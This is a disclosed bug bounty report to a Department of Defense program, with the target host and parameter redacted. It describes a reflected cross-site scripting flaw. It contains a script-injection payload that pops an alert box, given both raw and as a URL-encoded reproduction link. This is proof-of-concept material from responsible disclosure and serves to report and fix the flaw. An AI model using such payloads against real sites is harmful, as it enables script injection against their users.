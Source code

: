 # XSS Reflected on https://███ (███ parameter)

## Report Details
- **Report ID**: 1143776
- **URL**: https://hackerone.com/reports/1143776
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-31T23:22:07.789Z
- **Disclosed**: 2021-07-29T19:41:36.949Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings, i've found an xss on https://█████ (██████████ parameter)

link : https://█████/████████?████████=%22%3E%3Cscript%3Ealert(/frenchvlad/);%3C/script%3E&██████████

Payload : 
```
"><script>alert(/frenchvlad/);</script>
```

██████

best regards,
frenchvlad

## Impact

A reflected XSS vulnerability happens when the user input from a URL or POST data is reflected on the page without being stored, thus allowing the attacker to inject malicious content.

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
link : https://██████/████?████████=%22%3E%3Cscript%3Ealert(/frenchvlad/);%3C/script%3E&███████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
